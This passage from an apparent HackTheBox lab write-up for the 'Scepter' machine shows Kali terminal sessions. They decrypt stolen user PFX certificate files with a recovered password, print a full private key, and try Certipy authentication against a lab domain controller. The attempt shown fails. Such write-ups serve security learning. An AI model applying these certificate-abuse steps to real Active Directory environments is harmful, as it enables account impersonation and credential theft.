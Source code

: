 Verifying the password is correct

```bash
┌──(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# openssl pkcs12 -in nfsshare/clark.pfx -nocerts -nodes -passin pass:newpassword 
Bag Attributes
    localKeyID: E1 84 EA CC 0B 68 19 40 D4 CA 6B 14 C1 8E 9E 30 E7 AA 48 B4 
Key Attributes: <No Attributes>
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDdrPemdIl0KT5N
X3+cS1g3/es5nfAsX7FcmiGmD9kodovcTtOnxLvXCQc4iANb+OeJECO+0CRU3Sph
DxYLy1Wwv9KAGb1bkQfMsoavUp2eRkhm6IuYKfFzeBSdzfBF86C4k74n28pZRbgW
1wRg436z7725nWwjcKgz9rZscqBBhcfCs6I9RRJnPRSCR7btyYoE7a8YT0CL/23T
GSLp5xHflK2IctGunvg1GbdsJ/AtuoyOqhkKHVgFuTOhlzGMx7MNQBuB9jQOd9Oz
GHwB0/ANPIL5vQpii5GwkMACAMuifHDKVO50ANRPm2oJHWm9YRtpgVDyOIRya/4d
hDftRqWNAgMBAAECggEAI9NB3Mlls3u84WVHKtu0YKwtOU0QlSNL9zLDsGJMTrFF
7i9hHnJ5hwmi/JxiqpkB1lFg7YQW8w4hPLli7zoH2b5OhzxhsWwxbgAGK0x3Q66J
IfSAJvHUXzxvXId9RtjWRy49Y5SuUZomY66ROxVZEzxyFY7e/KVG0csT9VfbFWt7
3wdzY2KcZpcn+I91Wlhkmojt6iHJdIrTgGdL/GxgcAj1R9lYt87pJGZE/LN45oJD
JaFh/Wj548RNmO/PkdfWiNnJWrmDiXknbIUeAI1VI43zjxTE3CE4EJ127dGcftsF
ohlBsm4CkPfGCgtvnEgg+p2mCFKAPMvEvMrWGLEbQwKBgQD7O2YfZfOMa3O8wyFs
79BDtaXof3qHTQngpagZXI6wFsdrDC21uKV3YlRsqxibQx19ONJWZxAGKGfJYmhr
0zculbfh0958FT1+9T148bD4I8c0/gHo5MtyK3pT0Srp36Dcr4k0WA+BZ59WGqPw
NK7vDjbdr++GwDciiBSB4FHHuwKBgQDh4fhQDRXaHZZaniJ1yyAhMqlzA7gm9YwP
HJNWcde9IE0HTAXdrqgu8FhfBYwoKmILVnVcKOViFspXqoZ8f0SW3jldWuz9xAMj
/GIWWMvtK8RvfqRBSitKJfPVdTAss7oHx+sd+fdd1OsMuJl13e1GhvORAE+4kur3
36ZKWNJ/VwKBgGCkFsKZOziW1OyVuzPmhBynsWxgLUgCsHwD/UfUPOcrvAZHpwWy
Q6RK5OLwZgTDqoJS60ZlWtqjjFkBS92+YAnBefyavYjJuuAtgjoV7tdlG+ock6t8
523Bn8rCOVnBtmVt+L9z6HME41wB33I1Md2vgBeC6AbTxeG4qvrSyWKlAoGBAISD
W3gi5RHrT5xjrtWpz3SKUwwtP2hjnsHywqDw8l56R5YjTEGrx/CZgU5lY77gdlou
Y3UobMEpm5TobjM1OljDj6WrxOJujmUbF7QCbcf6aCf8hIHk8BZ0w2ITeKqQ2W7d
IpqYXT0HvsjctvKFukAoxVToeNxQHFZENzrgdsTLAoGBANoTOkeaIoSc4C8RyXLS
XY1UVqQLL2JfMzslc3HtCJru1Mx1C5EumF6qDkbQTnj52cj9/t7DOHqS+9z15Na0
erilQLHbPqmPt27z04OfKOsXHEgBKGDdvFKBioeZExWTmGkvwt4p0HwwJnxHv4EF
lI6PhL1ptAhHpO8tAY4frjRx
-----END PRIVATE KEY-----
```

The `newpassword` also valid for `scott.pfx` and `lewis.pfx` files.
Extract the unprotected `pfx` files and than try to authenticate.

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# certipy cert -password newpassword -pfx nfsshare/clark.pfx -out clark_extracted.pfx
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Data written to 'clark_extracted.pfx'
[*] Writing certificate and private key to 'clark_extracted.pfx'

┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# file clark_extracted.pfx 
clark_extracted.pfx: PEM certificate

┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# less clark_extracted.pfx 

┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# certipy auth -pfx clark_extracted.pfx -dc-ip 10.10.11.65
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[-] Failed to load PFX file: Could not deserialize PKCS12 data
[-] Authentication failed: Could not deserialize PKCS12 data
[-] Use -debug to print a stacktrace

```

